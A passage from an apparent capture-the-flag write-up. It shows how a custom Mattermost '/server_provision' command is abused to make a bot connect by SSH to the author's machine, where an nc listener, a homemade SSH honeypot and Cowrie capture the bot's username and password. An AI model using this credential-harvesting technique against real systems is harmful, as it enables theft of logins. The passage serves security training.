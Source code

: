 By typing `/` the prompt will pop up with all possible commands:

![image-20230509193113410](https://0xdf.gitlab.io/img/image-20230509193113410.png)

Most of these are default Mattermost commands, but `/server_provision` jumps out as different:

![image-20230509193211488](https://0xdf.gitlab.io/img/image-20230509193211488.png)

It doesn’t have a description. Sending it opens a dialog:

![image-20230509193301539](https://0xdf.gitlab.io/img/image-20230509193301539.png)

I’ll fill out the form. The Operating system has two options, but only one that isn’t marked “Disabled”:

![image-20230509193637230](https://0xdf.gitlab.io/img/image-20230509193637230.png)

I’ll put my IP, and start `nc` listening on 2222. On sending, there’s a connection:

```
oxdf@hacky$ nc -lnvp 2222
Listening on 0.0.0.0 2222
Connection received on 10.10.11.212 55630
SSH-2.0-paramiko_3.1.0

```

Once I kill that connection, I get a DM from cbrown:

![image-20230509174852965](https://0xdf.gitlab.io/img/image-20230509174852965.png)

It seems that cbrown is trying to SSH into the given server to do some provisioning!

#### SSH HoneyPot

There are several perfectly good SSH honeypots out there. I found some interesting old Python2 servers, and decided to [make my own](https://www.youtube.com/watch?v=HO1h57CiF98):

When I run my script, it will print the username / password on connecting:

```
oxdf@hacky$ python sshpot.py
Connection from 10.10.11.212: cbrown:sn00pedcr3dential!!!

```

#### Cowrie

Alternatively, I can also just use [cowrie](https://github.com/cowrie/cowrie), which has a Docker container:

```
oxdf@hacky$ docker run -p 2222:2222 cowrie/cowrie:latest
/cowrie/cowrie-env/lib/python3.9/site-packages/twisted/conch/ssh/transport.py:97: CryptographyDeprecationWarning: Blowfish has been deprecated
  b"blowfish-cbc": (algorithms.Blowfish, 16, modes.CBC),
/cowrie/cowrie-env/lib/python3.9/site-packages/twisted/conch/ssh/transport.py:101: CryptographyDeprecationWarning: CAST5 has been deprecated
  b"cast128-cbc": (algorithms.CAST5, 16, modes.CBC),
/cowrie/cowrie-env/lib/python3.9/site-packages/twisted/conch/ssh/transport.py:106: CryptographyDeprecationWarning: Blowfish has been deprecated
  b"blowfish-ctr": (algorithms.Blowfish, 16, modes.CTR),
/cowrie/cowrie-env/lib/python3.9/site-packages/twisted/conch/ssh/transport.py:107: CryptographyDeprecationWarning: CAST5 has been deprecated
  b"cast128-ctr": (algorithms.CAST5, 16, modes.CTR),
2023-05-10T01:53:47+0000 [-] Python Version 3.9.2 (default, Feb 28 2021, 17:03:44) [GCC 10.2.1 20210110]
2023-05-10T01:53:47+0000 [-] Twisted Version 22.10.0
2023-05-10T01:53:47+0000 [-] Cowrie Version 2.5.0
```